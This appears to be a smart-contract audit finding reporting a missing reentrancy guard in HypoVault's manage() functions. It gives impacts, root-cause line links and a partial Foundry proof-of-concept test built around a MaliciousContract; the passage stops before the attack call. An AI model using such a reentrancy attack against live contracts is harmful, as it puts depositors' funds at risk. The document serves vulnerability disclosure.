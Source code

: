 The vulnerability allows malicious external contracts to:

1. **Read Sensitive State**: Access vault balances, epochs, and reserved assets during operations
2. **Attempt State Manipulation**: Call user-facing functions like `requestDeposit()`, `requestWithdrawal()`, `executeDeposit()`, `executeWithdrawal()`
3. **Interfere with Critical Operations**: Disrupt ongoing fulfillments, epoch transitions, and user accounting
4. **Exploit Timing Windows**: Manipulate vault state during vulnerable transition periods

## Root Cause

The root cause is the absence of reentrancy protection in the `manage()` functions:
- [Line 444-451](https://github.com/code-423n4/2025-06-panoptic/blob/main/src/HypoVault.sol#L444-L451): First `manage()` function lacks `nonReentrant` modifier
- [Line 454-467](https://github.com/code-423n4/2025-06-panoptic/blob/main/src/HypoVault.sol#L454-L467): Second `manage()` function lacks `nonReentrant` modifier
- [Line 449 & 464](https://github.com/code-423n4/2025-06-panoptic/blob/main/src/HypoVault.sol#L449): The vulnerable external call `target.functionCallWithValue(data, value)`

## Proof of Concept

Three test cases demonstrate the vulnerability:

1. **`test_submissionValidity_reentrancy_attack()`**: Shows basic callback capability
2. **`test_manage_during_fulfillment_critical()`**: Demonstrates interference with fulfillment operations  
3. **`test_manage_between_operations()`**: Shows exploitation during state transitions

Run tests with:
```bash
forge test --match-test "test_submissionValidity\|test_manage_during\|test_manage_between" -vv
```

```solidity
/////////////////// TEST REENTRANCY VULNERABILITY ///////////////////////

// This demonstrates the basic callback reentrancy vulnerability in manage()

function test_submissionValidity_reentrancy_attack() public {
// Setup: Deploy malicious contract
MaliciousContract malicious = new MaliciousContract();

// Setup: Give Alice some tokens and let her deposit
vm.prank(Alice);
vault.requestDeposit(100 ether);

vm.startPrank(Manager);
accountant.setNav(100 ether);
vault.fulfillDeposits(100 ether, "");
vault.executeDeposit(Alice, 0);
vm.stopPrank();

// Alice should have shares now
uint256 aliceSharesBefore = vault.balanceOf(Alice);
assertGt(aliceSharesBefore, 0, "Alice should have shares");

// Record initial state
uint256 withdrawalEpochBefore = vault.withdrawalEpoch();

console.log("=== Before Attack ===");
console.log("Alice shares:", aliceSharesBefore);
console.log("Withdrawal epoch:", withdrawalEpochBefore);
console.log("Malicious contract attack executed:", malicious.attackExecuted());

// ATTACK: Manager innocently calls what they think is a legitimate protocol
vm.prank(Manager);
```